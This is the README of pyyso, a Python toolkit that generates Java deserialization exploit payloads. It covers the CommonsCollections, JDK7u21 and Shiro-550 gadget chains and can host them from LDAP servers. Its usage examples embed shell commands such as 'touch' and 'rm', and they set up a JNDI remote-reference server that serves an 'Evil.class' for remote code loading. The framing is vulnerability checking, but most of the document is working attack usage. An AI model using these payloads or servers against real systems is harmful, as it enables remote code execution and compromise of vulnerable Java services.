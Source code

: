 # pyyso: powerful java serialized toolkit

## What is it?
**pyyso** is a Python package that provides fast and flexible ways to generate java serialized poc.
It aims to be the fundamental high-level building block for doing vulnerability **check and research** in Python.
Additionally, it has a goal of becoming the most convenient and reliable toolkit implemented in Python for Java researchers

## Main Features
Here are just a few of the things that pyyso does well:

- Easy generating of java serialized poc
- Powerful, flexible functionality to start a ldap/rmi server to host java serialized pocs
- Communicating and collaborating with other Python packages 

pyyso has implemented
- URLDNS Gadget
- CommonsCollections1-7 Gadgets
- JDK7u21 Gadget
- JDK8u21 Gadget
- CommonsBeanutils 1.8.3
- CommonsBeanutils 1.9.2
- shiro-550 rememberMe deserialized
- java class embed with command
- ldap server hosting java serialized pocs
- ldap server hosting java remote reference factory

## Where to get it
The source code is currently host on GitHub at:
https://github.com/cokeBeer/pyyso

## Installation from sources
```
pip install pyyso
```

## How to use
First import pyyso
```
import pyyso
```
to generate a java serialized zed poc use:
```
pyyso.urldns("https://x.dnslog.com") #return java serialzed data of URLDNS in bytes
pyyso.cc1("touch /tmp/1") #return java serialzed data of CommonColletions1 in bytes
pyyso.cc2("touch /tmp/1") #return java serialzed data of CommonColletions2 in bytes
pyyso.jdk7u21("touch /tmp/1") #return java serialzed data of JDK7u21 in bytes
pyyso.jdk8u20("touch /tmp/1") #return java serialzed data of JDK8u20 in bytes
```
to generate a java class embed with command use:
```
pyyso.evil("touch /tmp/1") #return java class embed with command in bytes
```
to start a ldap server hosting java serialized pocs:
```
serobj=pyyso.cc1("touch /tmp/1")
server=pyyso.LdapSerialized(serobj=serobj, ip="0.0.0.0", port=1389)
server.run()
```
this will start a ldap server listening 0.0.0.0:1389  
you can change the hosted java serialized data by:
```
server.serobj=pyyso.cc1("rm /tmp/2")
```
to start a ldap server hosting java remote reference factory:
```
server=pyyso.LdapRemoteRef(javaCodeBase="http://127.0.0.1:8088/", javaFactory="Evil", javaClassName="java.lang.String", ip="0.0.0.0", port=1389):
server.run()
```
this will start a ldap server listening 0.0.0.0:1389  
and will return a remote reference pointer to `http://127.0.0.1:8088/Evil.class`

## License
[MIT](LICENSE)

## Inspired by
https://github.com/frohoff/ysoserial  
https://github.com/mbechler/marshalsec
